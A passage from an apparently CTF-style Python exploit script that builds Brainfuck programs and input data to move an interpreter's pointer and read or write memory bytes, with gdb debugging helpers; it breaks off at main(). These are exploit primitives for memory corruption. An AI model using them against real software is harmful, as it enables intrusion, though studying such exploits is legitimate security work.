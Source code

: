 ```python
                            c
                            '''.format(hex(addr)))
        else:
            gdb.attach(p,"b *{}".format(hex(addr))) 


def log(strr,addr):
    info("\033[0;31m{} --> {}\033[0m".format(strr,hex(addr)))

code = b""
data = b""
data2 = b""

def ptr_add(x, pad=b'a', step=8):
    global code
    global data
    code += b",[" + b'>'*step + b",]"
    data += pad*(x//step) + b'\x00'

def ptr_add2(x, pad=b'a', step=8):
    global code
    global data2
    code += b",[" + b'>'*step + b",]"
    data2 += pad*(x//step) + b'\x00'

def ptr_sub(x, pad=b'a', step = 8):
    global code
    global data
    code += b",[" + b'<'*step + b",]"
    data += pad*(x//step) + b'\x00'

def ptr_sub2(x, pad=b'a', step = 8):
    global code
    global data2
    code += b",[" + b'<'*step + b",]"
    data2 += pad*(x//step) + b'\x00'

def write_bytes(x):
    global code
    global data
    code += b".>"*x

def read_bytes(content, forword=False):
    global code
    global data
    if forword:
        code += b',>'*len(content)
    else:
        code += b','*len(content)
    data += content

def read_bytes2(content, forword=False):
    global code
    global data2
    if forword:
        code += b',>'*len(content)
    else:
        code += b','*len(content)
    data2 += content

def main():
    
    global code
```